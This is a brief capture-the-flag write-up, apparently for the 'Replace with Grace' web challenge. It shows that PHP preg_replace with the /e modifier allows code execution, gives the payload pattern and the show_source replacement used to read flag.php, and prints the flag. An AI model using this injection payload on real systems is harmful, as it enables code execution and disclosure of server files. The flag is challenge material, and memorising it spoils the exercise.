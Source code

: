 # Web60 - Replace with Grace

## Description

Regular expressions are pretty useful. Especially when you need to search and replace complex terms.

## Solution

This challenge is based on the preg_replace code execution exploitation. 

With a simple

```php
/(.*)/e

show_source("flag.php")
```

we get the flag for the task.

```php
<?php
$FLAG = "IW{R3Pl4c3_N0t_S4F3}";
?>
```